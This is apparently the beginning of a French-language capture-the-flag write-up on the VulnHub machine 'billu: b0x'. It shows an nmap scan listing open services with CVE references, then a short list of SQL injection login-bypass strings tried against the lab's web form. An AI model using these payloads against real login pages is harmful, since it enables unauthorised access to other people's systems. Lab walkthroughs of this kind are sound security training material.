 ```yaml
---
title: "Solution du CTF billu: b0x 1 de VulnHub"
tags: [CTF, VulnHub]
---
```


[billu: b0x](https://vulnhub.com/entry/billu-b0x,188/) était un CTF assez intéressant centré sur de l'exploitation web.

# 1 impasse de la faille, 31337 Injection

```
Nmap scan report for 192.168.56.198
Host is up (0.00013s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.4 (Ubuntu Linux; protocol 2.0)
| vulners: 
|   cpe:/a:openbsd:openssh:5.9p1: 
|       SSV:60656       5.0     https://vulners.com/seebug/SSV:60656    *EXPLOIT*
|       CVE-2018-15919  5.0     https://vulners.com/cve/CVE-2018-15919
|       CVE-2010-5107   5.0     https://vulners.com/cve/CVE-2010-5107
|       SSV:90447       4.6     https://vulners.com/seebug/SSV:90447    *EXPLOIT*
|       CVE-2016-0778   4.6     https://vulners.com/cve/CVE-2016-0778
|       CVE-2020-14145  4.3     https://vulners.com/cve/CVE-2020-14145
|_      CVE-2016-0777   4.0     https://vulners.com/cve/CVE-2016-0777
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum: 
|   /test.php: Test page
|_  /images/: Potentially interesting directory w/ listing on 'apache/2.2.22 (ubuntu)'
```

Sur le port 80 on trouve une mire de login avec un message nous incitant à exploiter une faille SQL.

J'ai d'abord tenté d'injecter apostrophes et guillemets pour voir si un message d'erreur apparaissait puis j'ai tenté quelques techniques de bypass de l'authentification :

```
admin' or '1'='1
admin" or "1"="1
admin" or 1 #
admin' or 1 #
```
